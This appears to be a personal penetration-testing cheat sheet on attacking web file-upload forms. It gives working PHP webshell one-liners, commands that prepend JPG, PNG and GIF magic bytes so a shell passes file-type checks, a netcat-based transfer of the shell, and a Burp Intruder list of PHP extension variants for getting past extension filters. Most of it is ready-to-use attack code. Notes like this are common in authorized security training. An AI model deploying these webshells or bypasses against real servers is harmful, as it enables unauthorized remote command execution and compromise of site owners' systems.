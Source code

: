 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### formats
Windows: Try asp, aspx, hta, doc malicious file uploads.
Web: Try php

#### weevely
[[Weevely]]

#### filter bypass
Inspect for filters from web page:
Right click on "Chose File" button > Inspect

Look for some form of "accept=" property.
ALSO, look in main file, such as main.js

![[Pasted image 20220905133644.png]]

Look into `allowedMimeType` for file types.
In this example, we see we can upload xml files.

[[11._XML XXE#Quick file upload win]]

#### Magic bytes
Magic bytes are used to identify the type of the file, and are usually found at the beginning of it. Other files have the magic bytes at their offset, while some other files (such as plain text files) do not have magic bytes at all. The position of the magic bytes also varies on different filesystems. 

JPG:
Adding magic bytes for the JPG format to our PHP file might let us bypass this check.  We can refer to the list of magic bytes at https://en.wikipedia.org/wiki/List_of_file_signatures. 

Valid magic bytes for a JPG/JPEG file are:
1. `FF D8 FF DB`
2. `FF D8 FF E0 00 10 4A 46 49 46 00 01`
3. `FF D8 FF EE`
4. `FF D8 FF E1 ?? ?? 45 78 69 66 00 00`

![[Pasted image 20220922121011.png]]

```bash - kali
echo 'FFD8FFDB' | xxd -r -p > webshell.php.jpg 
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.jpg
```

![[Pasted image 20220922121036.png]]

`http://$TARGET/uploads/webshell.php.jpg?cmd=whoami`

PNG:
The magic bytes for PNG are:
1. `89 50 4E 47 0D 0A 1A 0A`

```bash - kali
echo '89504E470D0A1A0A' | xxd -r -p > webshell.php.png
```

```bash - kali
echo '<?=`$_GET[cmd]`?>' >> webshell.php.png
```

`http://$TARGET/uploads/webshell.php.png?cmd=whoami`

#### GIF

Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dictionary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

